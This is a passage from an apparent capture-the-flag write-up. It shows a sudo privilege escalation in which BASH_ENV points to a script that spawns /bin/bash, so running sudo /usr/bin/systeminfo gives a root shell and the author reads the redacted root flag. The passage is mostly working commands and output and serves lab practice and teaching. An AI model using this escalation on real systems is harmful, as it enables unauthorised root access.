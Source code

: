 However, if we try to execute the **systeminfo** script still doesn’t give us a root shell. That’s because, as shown in the **sudo -l** output, sudo resets the PATH. But there is one environment variable we can keep: **“BASH_ENV”**:

```bash
echo '/bin/bash' > /tmp/root.sh
chmod +x /tmp/root.sh
export BASH_ENV=/tmp/root.sh
sudo /usr/bin/systeminfo
```

```bash
hish@environment:/tmp/.tmp$ sudo /usr/bin/systeminfo
root@environment:/tmp/.tmp# cat /root/root.txt
 {{REDACTED_FLAG}}
```

Pwned !!



